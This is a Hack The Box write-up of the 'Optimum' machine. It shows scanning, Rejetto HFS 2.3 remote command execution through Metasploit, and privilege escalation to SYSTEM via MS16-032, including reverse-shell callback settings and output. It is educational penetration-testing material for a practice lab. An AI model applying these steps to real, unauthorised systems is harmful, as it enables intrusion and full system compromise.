

# Hack The Box - Optimum



In this write-up, I’ll go through the compromise of the Windows target **Optimum**. The box starts with a single exposed web service running Rejetto HFS 2.3, which is vulnerable to remote command execution. From there, I gain a shell as the user `kostas`, then escalate privileges to `NT AUTHORITY\SYSTEM` and retrieve the final flag.

## Enumeration

I started with a full port scan to identify anything listening on the target.

```bash
sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.8
```

The scan immediately showed a single open port:

```text
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-10-28 00:24:21 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 80/tcp on 10.10.10.8
```

I followed up with Nmap to identify the service version.

```bash
nmap -sC -sV -p80 10.10.10.8
```

The result confirmed that the host was running HFS 2.3:

```text
Starting Nmap 7.80 at 2020-10-28 08:37 AWST
Nmap scan report for optimum.htb (10.10.10.8)
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

That version is known to have multiple public exploits, so I searched ExploitDB for `HFS 2.3`.

```text
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                    | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                 | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)            | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)            | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution       | windows/webapps/34852.txt
```

The most useful result was the Rejetto HFS 2.3.x RCE exploit.

## Initial Shell

I loaded Metasploit and searched for the HFS module.

```text
msf5 > grep hfs search
   140  exploit/windows/http/rejetto_hfs_exec                    2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

After setting `RHOST` and `LHOST`, I ran the exploit and received a shell as the low-privilege user.

```text
> ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-11-03 17:58:59 +0800  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 19:57:16 +0800  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 19:58:52 +0800  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 20:13:18 +0800  user.txt.txt
```

The user flag is present on the desktop, so I read it from the current session.

## Privilege Escalation

To escalate, I used Metasploit’s local exploit suggester against the active session.

```text
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run
```

The module identified a few likely paths:

```text
[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 34 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
```

I selected `ms16_032_secondary_logon_handle_privesc`, configured the session and callback, and launched the exploit.

```text
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.26
LHOST => 10.10.14.26
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 4443
LPORT => 4443
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
```

The exploit succeeded and dropped me into a privileged shell:

```text
[*] Started reverse TCP handler on 10.10.14.26:4443
[+] Executed on target machine.
[*] Meterpreter session 2 opened
```

From there, I confirmed the context:

```text
C:\Users\kostas\Desktop>whoami
nt authority\system
```

With SYSTEM access, I could access the administrator desktop and retrieve the root flag.

## Attack Path

- Scan the target with masscan.
- Confirm HFS 2.3 with Nmap.
- Search for public HFS exploits.
- Use Rejetto HFS RCE to get a shell.
- Enumerate local privilege escalation options.
- Exploit MS16-032 to gain SYSTEM.
- Read the final flag from the Administrator desktop.
